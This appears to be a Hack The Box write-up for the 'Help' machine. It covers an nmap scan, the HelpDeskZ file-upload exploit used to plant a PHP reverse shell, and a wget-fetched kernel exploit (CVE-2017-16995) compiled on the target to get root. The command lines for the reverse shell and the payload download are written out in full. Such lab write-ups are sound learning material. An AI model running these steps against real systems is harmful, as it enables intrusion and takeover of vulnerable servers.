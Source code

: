# HELP
## Writeup

### Script Kiddie
I'm currently just at [script kiddie](https://www.hackthebox.eu/home/users/profile/48556) level on Hack the Box and am doing these write-ups to try and improve.  There will most definitely be better ways of doing the boxes than I outline here in my write-ups so I welcome any comments and tips.

### Enumeration
```
root@kali:~/htb/help# nmap -sC -sV -oA nmap/initial 10.10.10.121
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-22 15:56 UTC
Nmap scan report for 10.10.10.121
Host is up (0.056s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Kicking off with the nmap scan we see 3 services open.  SSH, http and nodejs.  The sV part of the scan also shows us version numbers that we can check for vulnerabilities.  I don't really know anything about nodejs so will leave that one till last and check the reported version of OpenSSH for any vulnerabilities.

### SSH

```
root@kali:~# searchsploit OpenSSH 7.2p2
-------------------------------------------------- ----------------------------------------
 Exploit Title                                    |  Path
                                                  | (/usr/share/exploitdb/)
-------------------------------------------------- ----------------------------------------
OpenSSH 7.2p2 - Username Enumeration              | exploits/linux/remote/40136.py
OpenSSHd 7.2p2 - Username Enumeration             | exploits/linux/remote/40113.txt
-------------------------------------------------- ----------------------------------------
```
The weakness is that for some configurations, this version of ssh will respond with 'permission denied' error faster for an invalid user than it will for a legitimate user.  So you can try this attack with a user list and potentially enumerate some valid users for the machine.
I tried the python version of this exploit from exploit-db.com a number of times without success but then found it was in metasploit and included a 'CHECK_FALSE' option which checks for false positives by sending a few completely random usernames.  This test proved that the exploit wasn't working, time to move on.
        <SCREENSHOT>

### HelpDeskZ

Opening the box in a browser shows a default install of apache 2 for Ubuntu, nothing noticeable and there's no /robots.txt so I ran dirbuster with the small directory list.
<SCREENSHOT>
This quickly listed the /support directory which revealed the HelpDeskZ app, being the namesake of the box it looks like I'm on the right track.
<SCREENSHOT>
I played around with it for a little while to see if there was a way of injecting SQL or commands into any of the input fields but I couldn't find any.
So I checked searchsploit again.  There were two results, one with 'authorized' in the title which wouldn't help us right now and another one called 'Arbitrary File Upload'.
It turns out that this help desk system allows you to upload PHP files using the support ticket page.  It does tell you that this file type is not allowed when you upload it but does still save the file.  The software also renames the file to an md5 hash of the filename and current time as you can see in the source code below.  This means that you can still access and so run the php file if you can find out the new filename and where it is located.

I skim read the python script which states you just upload a php shell and run the script with the *base url* of the HelpDeskZ install and the name of your php shell.
I used this php reverse shell from pentestmonkey: (http://pentestmonkey.net/tools/web-shells/php-reverse-shell)
```
root@kali:~/htb/help# python exploit.py http://10.10.10.121/support/ rshell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
Sorry, I did not find anything
```
This didn't work so I read the script again and thought about why the current time part was so important.  If this was a key part of the exploit, what *is* the current time?
I reloaded the page in firefox and checked the response headers and saw that the time was behind mine but not by a round number of hours suggesting it wasn't just in a different time zone.
I went down a little rabbit hole and made a [python script](http://link-to-script) to sync my local system time with that of the webserver.*virtualbox-service keep reseting time*

```
root@kali:~/htb/help# python timesync.py
Original system date:
Wed 22 May 18:37:33 UTC 2019
HELP Datetime: 2019-05-22 18:28:01
new system date:
Wed 22 May 18:28:01 UTC 2019
```

After this the exploit still failed.

So I read the exploit script *again*.  In the description it has a link to the source code file that contains the vulnerability so I checked that out on [github](link to source code) and here I found out the path that files are uploaded to; this needs to included in the first parameter of the exploit.

https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php
`HelpDeskZ-1.0/controllers/submit_ticket_controller.php`
```
137   if(!isset($error_msg) && $settings['ticket_attachment']==1){
138     $uploaddir = UPLOAD_DIR.'tickets/';
139     if($_FILES['attachment']['error'] == 0){
140     $ext = pathinfo($_FILES['attachment']['name'], PATHINFO_EXTENSION);
141     $filename = md5($_FILES['attachment']['name'].time()).".".$ext;
142     $fileuploaded[] = array('name' => $_FILES['attachment']['name'],
143     'enc' => $filename,
144     'size' => formatBytes($_FILES['attachment']['size']),
145     'filetype' => $_FILES['attachment']['type']);
146     $uploadedfile = $uploaddir.$filename;
        ...
```

https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/includes/global.php
`HelpDeskZ-1.0/includes/global.php`
```
18   define('UPLOAD_DIR', ROOTPATH . 'uploads/');
```

So with my machines time in sync with the webserver and the right path set I was ready to try again.
```
root@kali:~/htb/help# python exploit.py http://10.10.10.121/support/uploads/tickets/ rshell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
found!
http://10.10.10.121/support/uploads/tickets/fc7240781f3464afcebb47bd8da49b9a.php
```

Now we've got a reverse shell through netcat from which we can go straight for the user flag
<SCREENSHOT> nc shell
<SCREENSHOT> nc commands

### Escalate

Now we need to find a way to escalate our privileges in order to get the root flag, and ideally to the root account itself.

As you can see from the screenshot above when the shell started, it shows the kernel version of `4.4.0-116-generic`.  I figured this sounded old enough to run it through searchsploit.
```
root@kali:~/htb/help# searchsploit 4.4.0-116
---------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                |  Path
                                                                                              | (/usr/share/exploitdb/)
---------------------------------------------------------------------------------------------- ----------------------------------------
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                        | exploits/linux/local/44298.c
---------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
That'll do.

[CVE-2017-16995](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-16995)
#### Description
>The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel through 4.14.8 allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extension.

I searched github for the CVE ID and found this code from [iBearcat](https://github.com/iBearcat/CVE-2017-16995/blob/master/exploit.c)
He includes instructions in his readme but its just a case of compiling the code on the target and running the resulting binary.

I started a simple http server on my machine to serve up the exploit and got it from the target machine from the reverse shell that was already running.

```
help@help:/$ cd /tmp
cd /tmp
help@help:/tmp$ wget http://10.10.14.9:6666/exploit.c
wget http://10.10.14.9:6666/exploit.c
--2019-05-22 13:59:50--  http://10.10.14.9:6666/exploit.c
Connecting to 10.10.14.9:6666... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5775 (5.6K) [text/plain]
Saving to: 'exploit.c'

exploit.c           100%[===================>]   5.64K  --.-KB/s    in 0.01s

2019-05-22 13:59:50 (509 KB/s) - 'exploit.c' saved [5775/5775]

help@help:/tmp$ gcc exploit.c -o makemeroot
gcc exploit.c -o makemeroot
help@help:/tmp$ chmod +x makemeroot
chmod +x makemeroot
help@help:/tmp$ ./makemeroot
./makemeroot
task_struct = ffff880010cbaa00
uidptr = ffff880036aef2c4
spawning root shell
root@help:/tmp# whoami
whoami
root
root@help:/tmp#
```

### root.txt

All that is left to do is get the root flag.

```
root@help:/tmp# cd /root
cd /root
root@help:/root# ls
ls
root.txt
root@help:/root# cat root.txt
cat root.txt
b7fe608***************0d9daddb98
```

Thanks for reading and thanks to [cymtrick](https://www.hackthebox.eu/home/users/profile/3079) for creating the box.
